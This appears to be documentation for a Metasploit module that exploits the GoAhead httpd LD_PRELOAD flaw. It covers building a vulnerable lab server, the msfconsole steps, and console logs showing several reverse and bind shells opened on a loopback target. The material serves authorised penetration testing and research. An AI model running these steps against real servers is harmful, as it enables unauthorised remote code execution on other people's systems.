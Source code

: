 ## Vulnerable Application

  The GoAhead httpd server between versions 2.5 and 3.6.4 are vulnerable to an arbitrary code execution
  vulnerability where a remote attacker can force a supplied shared library to be loaded into the process
  of a CGI application. This module delivers a shared library payload as the raw data to a POST request
  and forces this to be loaded by specifying a `LD_PRELOAD` value of `/proc/self/fd/0`.

### Kali 2017.3 and Ubuntu 16.04 Install Instructions

These instructions are based on the vulerability analysis by [elttam.com.au](https://www.elttam.com.au/blog/goahead/)

```
git clone https://github.com/embedthis/goahead.git
cd goahead/
git checkout tags/v3.6.4 -q
make > /dev/null
cd test
gcc ./cgitest.c -o cgi-bin/cgitest
../build/linux-x64-default/bin/goahead . 127.1.1.1:8080
```

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/goahead_ldpreload```
  4. Do: ```set rhost [ip]```
  5. Do: ```exploit```
  6. You should get a shell.

## Options

  **TARGET_URI**

  Optional. The full path to a CGI endpoint on the target server.

## Scenarios

### GoAhead 3.6.4 on Ubuntu 16.04 x64

```

msf> use exploit/linux/http/goahead_preload
msf exploit(goahead_ldpreload) > set RHOST 127.1.1.1
msf exploit(goahead_ldpreload) > set RPORT 8080
msf exploit(goahead_ldpreload) > check

[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[+] 127.1.1.1:8080 The target is vulnerable.

msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 4 opened (127.0.0.1:4444 -> 127.0.0.1:32988) at 2017-12-28 16:26:50 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 1
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[*] Started bind handler
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 5 opened (127.0.0.1:30836 -> 127.1.1.1:4444) at 2017-12-28 16:28:04 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 2
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP double handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo sNRXNjxWl7ic0uWw;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sNRXNjxWl7ic0uWw\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 6 opened (127.0.0.1:4444 -> 127.0.0.1:32995) at 2017-12-28 16:28:56 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


msf exploit(goahead_ldpreload) > set TARGET 4
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 7 opened (127.0.0.1:4444 -> 127.0.0.1:33000) at 2017-12-28 16:29:34 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```
